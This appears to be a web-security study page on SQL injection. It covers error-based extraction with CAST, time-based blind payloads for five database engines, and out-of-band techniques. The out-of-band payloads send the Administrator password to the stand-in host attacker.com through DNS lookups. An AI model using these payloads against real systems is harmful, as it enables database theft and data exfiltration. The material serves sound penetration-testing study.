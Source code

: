{% hint style="info" %}
**Note**: There are different ways of triggering conditional errors, and different techniques work best on different database types. See SQL cheat sheet from tib3rius -> (Boolean Error Inferential Exploitation)
{% endhint %}

<details><summary>Example</summary></details>

***

**Extracting sensitive data via verbose SQL error messages**

* Example: inject `'` and you get an error: `Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = '''. Expected char`
* You can use the `CAST()` function to turns an otherwise blind SQL injection vulnerability into a visible one
* `TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--`

### <mark style="color:yellow;">Time-based SQL injection</mark>

* Condition: As SQL queries are normally processed synchronously by the application, delaying the execution of a SQL query also delays the HTTP response.
* Triggering time delays depending on whether an injected condition is true or false
* We can retrieve data by testing one character at a time

```sql
# MySQL
AND (SELECT 1337 FROM (SELECT(SLEEP(10-(IF((1=1),0,10))))) RANDSTR)
# PostgreSQL
AND 1337=(CASE WHEN (1=1) THEN (SELECT 1337 FROM PG_SLEEP(10)) ELSE 1337 END)
# MSSQL
AND 1337=(CASE WHEN (1=1) THEN (SELECT COUNT(*) FROM sysusers AS sys1,sysusers AS sys2,sysusers AS sys3,sysusers AS sys4,sysusers AS sys5,sysusers AS sys6,sysusers AS sys7) ELSE 1337 END)
# Oracle
AND 1337=(CASE WHEN (1=1) THEN DBMS_PIPE.RECEIVE_MESSAGE('RANDSTR',10) ELSE 1337 END)
# SQLite
AND 1337=(CASE WHEN (1=1) THEN (SELECT 1337 FROM (SELECT LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2)))))) ELSE 1337 END)
```

<details><summary>Attack example + automation with burp (PostgreSQL)</summary></details>

### <mark style="color:yellow;">Out-Of-Band (OAST) SQL injection</mark>

An application might carry out a SQL query asynchronously (another thread execute the SQL query)

```sql
-- Triggering a DNS query
'; exec master..xp_dirtree '//attacker.com/a'--
' UNION SELECT UTL_INADDR.get_host_address('attacker.com')

-- Exfiltrate data
'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.attacker.com/a"')--
```
